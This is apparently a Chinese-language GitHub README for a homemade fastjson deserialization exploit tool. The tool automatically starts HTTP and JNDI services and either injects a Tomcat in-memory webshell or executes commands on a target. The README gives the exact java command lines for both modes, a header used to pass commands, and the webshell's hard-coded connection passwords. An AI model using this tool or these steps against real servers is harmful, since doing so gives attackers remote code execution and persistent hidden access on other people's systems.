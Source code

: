 # 无题

**介绍**

> 一个垃圾的fastjson反序列化payload生成工具，自动启动http服务，自动启动jndi服务，可以注入内存马，可以执行命令。秉持着多造轮子的终极原则，多写两行代码练练手也是很好的，但人反正是个菜鸡，所以工具写的也很菜鸡。

**ps**

> 忘记说了，里面用到了java的动态编译，然后这个玩意要用jre下面的java.exe来运行，不然会显示环境缺失。



**工具使用**

>在工具的README里想偷懒就没写使用方法了，在这里写一下吧。

1. 使用`jre`运行程序
   ![image-20211210165454871](README.assets/image-20211210165454871.png)

>工具会自动创建`http`服务和`jndi`服务。`-m`参数表示直接注入`tomcat`内存马，`-h`参数是服务器地址，`-p`参数表示服务一直挂起。

```cmd
&"D:\Program Files\Java\jdk1.8.0_301\jre\bin\java.exe" -jar .\fastjson_tools-1.0-SNAPSHOT-jar-with-dependencies.jar -h 127.0.0.1 -m shell -p 1   #注入内存马的Exp

&"D:\Program Files\Java\jdk1.8.0_301\jre\bin\java.exe" -jar .\fastjson_tools-1.0-SNAPSHOT-jar-with-dependencies.jar -h 127.0.0.1 -e   whoami -p 1  #执行命令的Exp
```

2. 将生成的`jndi`地址换成你的`payload`，然后触发一下
   ![image-20211210165626751](README.assets/image-20211210165626751.png)

3. 攻击成功会返回http服务收到请求，然后可以访问一下内存马。
   ![image-20211210165642432](README.assets/image-20211210165642432.png)
   ![image-20211210165649092](README.assets/image-20211210165649092.png)

>内存马的使用可以看另外一个项目[addMemShellsJSP](https://github.com/Ghost2097221/addMemShellsJSP)

4. 执行命令的利用方式
   ![image-20211210165658329](README.assets/image-20211210165658329.png)

```cmd
&"D:\Program Files\Java\jdk1.8.0_301\jre\bin\java.exe" -jar .\fastjson_tools-1.0-SNAPSHOT-jar-with-dependencies.jar -h 127.0.0.1 -e whoami -p 1

X-FORWARDEDS-FOR: whoami


内存马的连接密码：ifconflag  和 p@ssW0rd@123
```

![image-20211210165709758](README.assets/image-20211210165709758.png)

